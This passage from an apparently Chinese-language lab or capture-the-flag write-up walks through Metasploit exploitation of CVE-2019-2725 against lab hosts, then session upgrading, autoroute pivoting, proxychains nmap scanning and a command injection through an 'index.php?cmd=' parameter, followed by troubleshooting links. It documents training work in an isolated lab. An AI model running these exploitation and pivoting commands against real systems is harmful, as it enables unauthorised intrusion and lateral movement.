

新开一个 ssh 会话窗口 ：检查 1080 端口服务开放情况 

```shell
sudo lsof -i tcp:1080 -l -n -P
```


回到 metasploit 会话窗口:重新进入 shell 会话 

```shell
sessions -i 1 
curl http://192.170.84.2:7001 -vv 
curl http://192.170.84.3:7001 -vv 
curl http://192.170.84.4:7001 -vv
```


#### 7.攻破靶标2-4

search exploit 

```shell
search cve-2019-2725
```

 getshell 

```shell
use 0 
show options
```


```shell
set RHOSTS 192.170.84.2
#set RHOSTS 192.170.84.3
#set RHOSTS 192.170.84.4
# 分别设置不同的靶机 IP 
set lhost 192.168.56.109
# 分别 run
run -j
```


得到flag2：



提交flag2，进度40%


相同操作flag3:



提交flag3:


flag4:



提交flag4:


#### 8.攻破最终靶标5

通过网卡、路由、ARP 发现新子网 192.169.85.0/24:

```shell
sessions -c "ifconfig" -i 3,4,5
```


发现sessions 4（192.170.84.3）有两张网卡：



```shell
#portscan through pivot
# 将会话 4 升级为 meterpreter shell
sessions -u 4

# 新的 meterpreter shell 会话编号此处为 
sessions -i 7
```


```shell
# 将新发现的子网加入 Pivot Route
run autoroute -s 192.169.85.0/24
run autoroute -p

# 通过 CTRL-Z 将当前会话放到后台继续执行
use scanner/portscan/tcp
set RHOSTS 192.169.85.2-254
set ports 80
run 
# 应该发现终点靶标 192.169.85.2 80(tcp)
```

没有扫描到终点靶标 192.169.85.2 80(tcp)：


在攻击者主机进行扫描：

```shell
proxychains sudo nmap -vv -n -p 80 -Pn -sT 192.170.85.1-254
```

利用跳板机 192.170.84.3 的 shell 会话「踩点」最终靶标，夺取flag：

```shell
#可以直接
sessions -c "wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 6

#也可以
#进入会话6
sessions -i 6

shell

wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result
```

因为扫描不到192.169.85.2 导致得不到最终flag

## 报错解决

### 1.[Ubuntu](https://so.csdn.net/so/search?q=Ubuntu&spm=1001.2101.3001.7020)换源error

The following signatures couldn’t be verified because the public key is not available

> 修改方法：
> 1、 sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys 5523BAEEB01FA116 其中的5523BAEEB01FA116是根据错误提示写的
> 2、重新执行sudo apt update 即可

参考链接：[(100条消息) ubuntu换源更新失败：The following signatures couldn‘t be verified because the public key is not available_sxiaocaicai的博客-CSDN博客](https://blog.csdn.net/sxiaocaicai/article/details/119111365)

### 2.镜像源

[ubuntu镜像_ubuntu下载地址_ubuntu安装教程-阿里巴巴开源镜像站 (aliyun.com)](https://developer.aliyun.com/mirror/ubuntu?spm=a2c6h.13651102.0.0.9c371b11kyC5Oh)

### 3.Request method ‘POST‘ not supported Method Not Allowed

[(100条消息) Request method ‘POST‘ not supported Method Not Allowed_cy谭的博客-CSDN博客](https://blog.csdn.net/zhan107876/article/details/111595338)

### 4.Metasploit渗透测试中出的错误

[Metasploit渗透测试中出的错误 Exploit failed bad-config\]: Rex::BindFailed The address is already in use_木森czy的博客-CSDN博客](https://blog.csdn.net/weixin_41023533/article/details/121337503)

## 参考链接

https://www.govcert.admin.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/

[Struts2 S2-061 远程命令执行漏洞（CVE-2020-17530）复现 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/338497899)
